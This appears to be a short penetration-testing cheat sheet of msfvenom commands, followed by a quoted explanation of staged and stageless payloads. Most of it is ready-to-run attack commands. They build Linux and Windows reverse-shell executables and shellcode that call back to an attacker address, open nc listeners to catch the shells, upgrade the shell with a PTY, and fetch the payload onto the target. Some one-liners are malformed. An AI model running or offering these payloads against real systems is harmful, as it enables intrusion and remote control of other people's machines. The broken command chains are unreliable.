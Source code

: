 ### Msfvenom
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

> The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.
